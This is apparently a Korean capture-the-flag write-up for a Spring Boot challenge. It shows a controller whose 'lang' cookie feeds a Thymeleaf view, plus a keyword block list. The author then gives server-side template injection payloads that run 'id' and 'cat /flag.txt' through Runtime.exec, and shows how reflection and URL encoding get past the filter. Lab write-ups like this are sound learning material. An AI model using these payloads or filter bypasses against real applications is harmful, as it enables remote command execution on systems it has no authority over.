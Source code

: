 ## 코드

```java
@GetMapping({"/"})
public String index(@RequestParam(value = "lang", required = false) String lang, Model model, HttpServletRequest request, HttpServletResponse response) {
    if (lang != null) {
        response.addCookie(new Cookie("lang", lang));
        return "redirect:/";
    } 
}

final String[] DANGEROUS_STRINGS = new String[] { "Runtime", "java", "class" };
```

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<head>
    <style>/* Create two equal columns that floats next to each other */
    .column {
      float: left;
      width: 50%;
    }
    /* Clear floats after the columns */
    .row:after {
      content: "";
      display: table;
      clear: both;
    }
    </style>
</head>
<body>
    <div th:fragment="main" class="row">
        <div class="column"><h3 th:text="'Hello, ' + ${message}"></h3></div>
        <div class="column" align="right"><a href="/?lang=en">en</a>/<a href="/?lang=ko">ko</a></div>
    </div>
    <a href="/welcome">Welcome</a>
    <a href="/signup">Singup</a>
    <a href="/signin">Singin</a>
</body>
</html>
```

## 풀이

```bash
$ unzip app.jar
```

BOOT-INF/에 들어가면 .class 파일들이 있고, jd-gui로 코드를 리버싱해서 봤다.

그 결과 html 파일에서 SSTI 취약점이 발생할 것 같은 느낌이 들었다.

Spring boot SSTI를 검색하면 ThymeleafView 관련 write-up이 나오고,

우리는 lang을 cookie에 설정해줄 수 있기 때문에,

cookies에다가 lang: 'query' 와 같이 injection을 할 수 있음을 알게 되었다.

Spring boot SSTI는 ${} 문법으로 진행할 수 있고,

```python
payload = '{7*7}'
query = f'__$%7b{payload}%7d__::.x'
```

까지는 쉽게 접근했다. 그리고 실행시키고자 하는 payload도 해당 write-up에서 찾을 수 있었다.

```python
payload = "new%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()"
```

문제는 java, class, Runtime 키워드가 필터링된다는 것이다. 근데 나는 자바 알못이라서 이 필터링을 우회시키기 위한 방법을 몰랐다. 검색해도 잘 안나와서 풀이를 구매했더니 괴랄한 코드가 나왔다.

```python
payload = "T(Void).TYPE.forName(%22ja%22+%22va.util.Scanner%22).getConstructor(T(Void).TYPE.forName(%22ja%22+%22va.io.InputStream%22)).newInstance(T(Void).TYPE.forName(%22jav%22+%22a.lang.Run%22+%22time%22).getMethods()[6].invoke(null).exec(%22cat%20/flag.txt%22).getInputStream()).next()"
```

솔직히 이거는 자바 개고수나 할 수 있지 않을까 싶다.. 그래서 일단 플래그를 얻고 좀 더 쉬운 풀이를 찾아보니 url encoding을 알아냈다. url encoding인데 cookie에 넣어도 실행된다는게 아직도 이해는 안되지만(GET에서 url에 넣는 방식이었으면 몰라도) 아무튼 url encoding을 활용해서 문자열을 인코딩한 다음 이를 cookie에 넣어도 실행이 잘 되었다. 제일 간단한 코드는 다음과 같다.

```python
payload = "new%20j%61va.util.Scanner(T(j%61va.lang.Runtim%65).getRuntim%65().exec(%22id%22).getInputStream()).next()"
```

나머지는 검색으로 다 해결했는데, 마지막에 필터링 우회는 솔직히 어려웠다. 웹쪽에서 필터링 우회가 필요할 때에는 url encoding을 항상 염두에 두어야겠다.